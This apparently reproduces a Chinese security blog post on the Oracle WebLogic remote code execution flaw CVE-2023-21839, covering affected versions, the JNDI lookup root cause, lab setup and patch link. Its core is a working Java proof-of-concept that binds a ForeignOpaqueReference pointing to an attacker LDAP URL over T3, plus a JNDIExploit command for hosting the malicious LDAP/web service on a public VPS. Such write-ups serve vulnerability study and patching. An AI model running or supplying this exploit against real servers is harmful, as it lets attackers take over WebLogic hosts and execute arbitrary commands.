

# Weblogic 远程代码执行漏洞(CVE-2023-21839) - 小阿辉谈安全 - 博客园

> 原文：[`www.cnblogs.com/hgschool/p/17059855.html`](https://www.cnblogs.com/hgschool/p/17059855.html)

### 漏洞描述

WebLogic 是美商 Oracle 的主要产品之一，系购并得来。是商业市场上主要的 Java 应用服务器软件之一，是世界上第一个成功商业化的 J2EE 应用服务器，目前已推出到 14c 版。而此产品也延伸出 WebLogic Portal, WebLogic Integration 等企业用的中间件，以及 OEPE 开发工具。

WebLogic 存在远程代码执行漏洞，未经授权的攻击者利用此漏洞通告 T3、IIOP 协议构造恶意请求发送给 WebLogic 服务器，成功利用此漏洞后攻击者可以接管 WebLogic 服务器，并执行任意命令。

### 影响范围

*   WebLogic_Server = 12.2.1.3.0
*   WebLogic_Server = 12.2.1.4.0
*   WebLogic_Server = 14.1.1.0.0

### 漏洞危害

攻击者成功利用此漏洞后攻击者可以接管 WebLogic 服务器，并执行任意命令。

#### Weblogic T3/IIOP 反序列化命令执行漏洞

Weblogic t3/iiop 协议支持远程绑定对象 bind 到服务端。并且可以通过 lookup 查看，代码：c.lookup("xxxxxx");。

当远程对象继承自 OpaqueReference 时，lookup 查看远程对象时，服务端会调用远程对象 getReferent 方法。

weblogic.deployment.jms.ForeignOpaqueReference 继承自 OpaqueReference 并且实现了 getReferent 方法，并且存在 retVal = context.lookup(this.remoteJNDIName)实现，故可以通过 rmi/ldap 远程协议进行远程命令执行。

#### 复现环境

WebLogic_Server = 12.2.1.3.0
环境搭建参考：[`blog.csdn.net/qq_41979593/article/details/123780213`](https://blog.csdn.net/qq_41979593/article/details/123780213)
**注意：**
可能某些搭建的实验环境无法复现，因为 JDNI 注入由于其加载动态类原理是 JNDI Reference 远程加载 Object Factory 类的特性，在 JDK 6u132, JDK 7u122, JDK 8u113 版本中，系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为 false，即默认不允许从远程的 Codebase 加载 Reference 工厂类
在 2018 年 10 月 Java 对 LDAP Reference 远程工厂类的加载增加了限制，在 Oracle JDK 11.0.1、8u191、7u201、6u211 之后，com.sun.jndi.ldap.object.trustURLCodebase 属性的默认值被调整为 false。
因此，搭建此漏洞复现环境时 jdk 版本需要小于 jdk 8u191 (推荐 8u112)。

#### 漏洞利用 POC

需要引入 weblogic.jar
注意：weblogic10 及以后的版本，不能直接使用 server/lib 目录下的 weblogic.jar 了，需要通过执行一个命令生成手动生成 wlfullclient.jar，用来替代老版本中的 weblogic.jar。
具体命令如下（Windows 系统，我的 weblogic 安装目录为 D:\Program\weblogic-10.3.6）：

```
D:
cd D:\Program\weblogic-10.3.6\wlserver\server\lib
java -jar D:\Program\weblogic-10.3.6\modules\com.bea.core.jarbuilder_1.7.0.0.jar 
```

执行完成后，会在控制台看到输出信息,最后一行是生成的 wlfullclient.jar 就是我们需要引用的 jar 包了

关于如何导入本地 jar 文件参考文章：[`blog.csdn.net/grq15203514615/article/details/126966572`](https://blog.csdn.net/grq15203514615/article/details/126966572)

Poc 如下：

```
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class BindRce {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable<String,String> env = new Hashtable<String,String>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    //iiop
    public static void main(String args[]) throws Exception {
       InitialContext c=getInitialContext("t3://127.0.0.1:7001");
        Hashtable<String,String> env = new Hashtable<String,String>();

        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        weblogic.deployment.jms.ForeignOpaqueReference f=new weblogic.deployment.jms.ForeignOpaqueReference();
        Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f,env);
        Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(f,"ldap://xxxxxxxx/xxx");
        c.bind("xxxx",f);
        c.lookup("xxx");    }
} 
```


公网开放 LDAP 和 WEB 服务

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i vpsIP 
```


T3 协议其实是 Weblogic 内独有的一个协议，在 Weblogic 中对 RMI 传输就是使用的 T3 协议。在 RMI 传输当中，被传输的是一串序列化的数据，在这串数据被接收后，执行反序列化的操作。
数据包长这样


复现成功


### 修复方案

厂商已发布了漏洞修复补丁，下载链接：[`support.oracle.com/rs?type=doc&id=2917213.2`](https://support.oracle.com/rs?type=doc&id=2917213.2)